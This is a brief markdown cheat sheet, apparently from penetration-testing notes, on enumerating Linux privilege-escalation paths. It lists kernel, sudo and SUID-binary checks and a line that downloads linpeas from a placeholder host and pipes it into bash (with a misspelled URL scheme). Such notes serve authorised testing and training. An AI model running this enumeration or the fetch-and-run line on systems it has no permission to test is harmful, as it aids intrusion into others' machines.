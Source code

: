 # Common Privesc Methods

For Linux privesc I usually like enumerating all directories and unusual files I have access too, and then, running a common binary and some one-liners.

## Identifying Privesc

### One-Liners

Run the following one liners to enumerate your privs on the box:

- `uname -a` == Gives you linux kernel ver.
- `sudo -l` == Shows you where you have SUDO privs.
- `find / -perm -u=s -type f 2>/dev/null` == Locate SUID Binaries.

### Linpeas

`curl -sL htttp://<myip>/linpeas.sh | bash`
